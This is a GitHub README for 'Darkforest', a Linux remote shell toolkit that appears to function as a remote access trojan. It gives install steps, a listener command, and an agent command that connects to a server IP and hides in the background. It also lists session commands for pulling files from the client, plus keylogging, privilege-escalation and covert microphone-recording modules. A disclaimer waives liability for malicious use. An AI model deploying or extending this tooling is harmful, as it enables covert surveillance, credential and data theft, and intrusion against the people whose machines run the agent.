<div align="center">
    <a href="https://github.com/kit4py/darkforest/stargazers">
        <img src="https://img.shields.io/github/stars/kit4py/darkforest?color=cba6f7&style=for-the-badge&logo=starship">
    </a>
    <a href="https://github.com/kit4py/darkforest/issues">
        <img src="https://img.shields.io/github/issues/kit4py/darkforest?color=fae3b0&style=for-the-badge&logo=github">
    </a>
    <a href="https://github.com/kit4py/darkforest/network/members">
        <img src="https://img.shields.io/github/forks/kit4py/darkforest?color=94e2d5&style=for-the-badge&logo=git-fork">
    </a>
    <a href="https://github.com/kit4py/darkforest/blob/main/LICENSE">
        <img src="https://img.shields.io/badge/license-MIT-rosewater?color=f5e0dc&style=for-the-badge&logo=archlinux">
    </a>
</div>

# Darkforest

A modular, scalable remote shell toolkit for Linux with session management, keylogging, audio recording, and more (features under development).


## Installation

1. Clone the repository:

   ```bash
   git clone https://github.com/kit4py/darkforest.git
   cd darkforest
   ```
2. Install dependencies in editable mode:

   ```bash
   pip install -e .
   ```
3. Ensure system dependencies:

   ```bash
   sudo apt update && sudo apt install ffmpeg
   ```

## Usage

### Start the server (listener)

```bash
rserver --host 0.0.0.0 --port 5555
```

### Launch the client (agent)

```bash
rclient --host <SERVER_IP> --port 5555
```

The client will detach to the background and free your terminal.

## Menu Commands

When the server starts, use the `darkforest>` prompt:

* `sessions`           : List active sessions
* `enter <session_id>` : Interact with a session
* `kill <session_id>`  : Terminate a session
* `clear`              : Clear the screen
* `help`               : Show this help message
* `quit`               : Exit the server

## In-Session Shell Commands

Once inside a session, the prompt changes to:

```
* [<session_id>] Shell~(<client_addr>):
```

Available commands:

* `cd <path>`           : Change directory on client
* `download <file>`     : Download file from client to server
* `upload <file>`       : Upload file from server to client
* `clear`               : Clear this local shell screen
* `exit`                : Return to the main menu
* `quit`                : Close the session

## Feature Modules (under development)

* **Keylogger**: `keylogger_start` / `keylogger_stop` (logs saved as `keylogs_session_<id>.txt`)
* **Privilege Escalation**: `priv_escalate`
* **Microphone Recorder**: `record_mic <seconds>` (MP3/WAV conversion requires `ffmpeg`)
* **Sound Player**: `play_sound <file.mp3>`



## Legal Disclaimer

> You expressly understand and agree that Darkforest (creators and contributors) shall not be liable for any damages or losses resulting from your use of this tool or third-party products that use it.
>
> **Creators have no responsibility for:**
>
> * Unlawful or illegal use of the tool.
> * Legal or law infringement by third parties and users.
> * Acts against ethical and/or human moral, cultural, or societal norms.
> * Malicious use or distribution causing damage to third parties.

---

© 2025 Darkforest Contributors. Licensed under the MIT License.


